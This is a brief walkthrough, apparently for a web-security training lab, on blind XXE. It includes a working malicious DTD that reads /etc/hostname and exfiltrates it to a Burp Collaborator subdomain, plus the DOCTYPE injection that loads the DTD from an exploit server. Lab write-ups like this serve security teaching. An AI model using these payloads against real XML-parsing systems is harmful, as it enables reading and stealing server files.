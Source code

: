 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

Open Burp Collaborator and copy the subdomain: `uomhe13rt0bmbq6o3u87qszbx23srh.burpcollaborator.net`

Open the exploit server and place the following into the body of the dtd:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://uomhe13rt0bmbq6o3u87qszbx23srh.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Copy the url of the dtd. Intercept a request for the check stock function and place the url into the definition, using the full definition in the request xml:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://exploit-ac8c1f401e928e56c0e0a20901a400e5.web-security-academy.net/exploit.dtd"> %xxe;]>`

Forward the request and check the collaborator logs. The http interaction will show a request similar to `GET /x=p35g342isk21` where `x=%file;` as defined in the malicious dtd.

Submit the solution to solve the lab.